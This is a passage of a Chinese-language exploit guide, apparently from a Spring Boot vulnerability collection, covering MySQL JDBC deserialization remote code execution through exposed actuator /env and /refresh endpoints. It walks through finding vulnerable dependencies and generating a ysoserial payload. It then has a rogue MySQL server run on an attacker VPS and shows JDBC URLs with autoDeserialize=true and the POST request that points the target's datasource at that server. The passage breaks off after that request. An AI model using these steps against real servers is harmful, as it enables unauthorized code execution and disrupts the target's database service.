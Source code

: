 ### 0x08：mysql jdbc deserialization RCE

#### 利用条件

- 可以 POST 请求目标网站的 `/env` 接口设置属性
- 可以 POST 请求目标网站的 `/refresh` 接口刷新配置（存在 `spring-boot-starter-actuator` 依赖）
- 目标环境中存在 `mysql-connector-java` 依赖
- 目标可以请求攻击者的服务器（请求可出外网）

#### 利用方法

##### 步骤一：查看环境依赖

GET 请求 `/env` 或 `/actuator/env`，搜索环境变量（classpath）中是否有 `mysql-connector-java`  关键词，并记录下其版本号（5.x 或 8.x）；

搜索并观察环境变量中是否存在常见的反序列化 gadget 依赖，比如  `commons-collections`、`Jdk7u21`、`Jdk8u20` 等；

搜索 `spring.datasource.url` 关键词，记录下其 `value`  值，方便后续恢复其正常 jdbc url 值。

##### 步骤二：架设恶意 rogue mysql server

在自己控制的服务器上运行 [springboot-jdbc-deserialization-rce.py](https://raw.githubusercontent.com/LandGrey/SpringBootVulExploit/master/codebase/springboot-jdbc-deserialization-rce.py) 脚本，并使用 [ysoserial](https://github.com/frohoff/ysoserial) 自定义要执行的命令：

```bash
java -jar ysoserial.jar CommonsCollections3 calc > payload.ser
```

在脚本**同目录下**生成 `payload.ser` 反序列化 payload 文件，供脚本使用。

##### 步骤三：设置 spring.datasource.url 属性

> ⚠️ 修改此属性会暂时导致网站所有的正常数据库服务不可用，会对业务造成影响，请谨慎操作！

mysql-connector-java 5.x 版本设置**属性值**为：

```url
jdbc:mysql://your-vps-ip:3306/mysql?characterEncoding=utf8&useSSL=false&statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor&autoDeserialize=true
```

 mysql-connector-java 8.x 版本设置**属性值**为：

```url
jdbc:mysql://your-vps-ip:3306/mysql?characterEncoding=utf8&useSSL=false&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&autoDeserialize=true
```

spring 1.x

```http
POST /env HTTP/1.1
Content-Type: application/x-www-form-urlencoded

spring.datasource.url=对应属性值
```
